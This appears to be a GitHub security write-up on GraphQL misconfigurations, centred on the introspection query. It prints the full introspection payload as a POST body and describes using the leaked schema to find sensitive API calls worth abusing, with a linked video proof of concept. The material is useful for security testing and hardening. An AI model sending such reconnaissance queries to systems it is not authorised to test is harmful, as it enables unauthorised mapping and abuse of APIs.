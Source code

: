 # -GraphQL-Misconfigurations

Description :

As new technologies emerge so will new vulnerabilities. By default graphQL does not implement authentication, this is put on the developer to implement. This means by default graphQL allows anyone to query it, any sensitive information will be available to attackers unauthenticated.

Once you find an open graphQL instance you need to know what queries it supports. This can be done by using the introspection system,

Misconfigurations in GraphQL:

Thing to understand here is that GraphQL like any other REST API is vulnerable to many attacks the same attacks the REST API might be prone to. I’ll list some of them below but the most interesting thing and the reason of making this entire post is the infamous Introspection query bug.

Introspection query: Simply put is a way to query the server for its GraphQL back-end schema and to get a complete documentation and list of what API calls are available in the back-end. This is originally meant to be used internally

1. after doing introspection query

![image](https://user-images.githubusercontent.com/84071887/234309226-9dd0c756-ae97-4fa4-9b16-85ab3ef36010.png)

 GraphQL Introspection Query Leaking back-end schema
Just replace the POST contents with the following query:


{"query":"\n    query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }\r\n  ","variables":null}



Now when you do this The response might be quite big and hard to comprehend. The best way to understand the schema is to visualize it. That can be done by copying the entire response body and using this website https://apis.guru/graphql-voyager/ click on the Change schema button and go in the introspection tab then paste the introspection query there

![image](https://user-images.githubusercontent.com/84071887/234309528-33cb4bcb-bd7a-43a2-a962-4d72d9beedba.png)


Now since we have the entire API calls list we can go over it and easily try to figure out if there are any sensitive API calls that can be abused. This is the most prevalent type of bug found in GraphQL back-ends which can lead to quite critical scenarios.


Video POC attached here :
https://drive.google.com/file/d/1UtspZvhdlDeInEPdQj4p4QOyVX1jLlkm/view
watch this video for clear understanding.

 
 

